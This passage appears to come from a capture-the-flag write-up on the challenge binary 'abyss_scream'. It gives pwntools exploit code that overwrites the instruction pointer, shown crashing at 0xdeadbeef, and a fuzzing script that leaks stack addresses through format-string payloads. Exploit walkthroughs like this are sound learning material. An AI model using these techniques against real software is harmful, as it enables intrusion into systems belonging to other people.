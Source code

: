 ```python

p = process(exe)

p.sendlineafter(b'Enter input: ', 'x')
p.sendlineafter(b'name: ', 'x')

payload = flat({
  padding: [
    0xdeadbeef
  ]
})

p.sendlineafter(b'message: ', payload)
```
Demonstrating that it works:
```console
$ python3 exploit.py
$ sudo dmesg | tail -n 2
[ 1202.784357] abyss_scream[6648]: segfault at deadbeef ip 00000000deadbeef sp 00007ffefe45a900 error 14
[ 1202.784384] Code: Unable to access opcode bytes at 0xdeadbec5.
```
## Leaking Addresses
Because of the format string vulnerability we can leak addresses of the stack. Lets create a small fuzzing script that will loop through several leaked addresses to see if we find interesting addresses.
```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'warning'

def send_payload(payload, name):
   p.recvuntil(b"input: ")
   p.sendline(b"x")
   p.recvuntil(b"name: ")
   p.sendline(name)
   p.recvuntil(b"message: ")
   p.sendline(payload)

data = b""
i = 0
name_str = "bytebl33d"
for i in range(50):
   try:
      p = start()
      send_payload(f"%{i}$p".encode(), name=name_str)
      p.recvuntil(b"Your message:\n")
      data = p.recvuntil(b"\n")
      print(i, data)
      p.recvuntil(b"input: ")
      p.close()
   except EOFError:
      pass
```
We try looking for addresses starting with `0x55`, and we find a few that might be useful:
```
4 b'0x56168b3e66b5\n'
...
37 b'0x55cdf5071d90\n'
...
41 b'0x561bf357a6c0\n'
```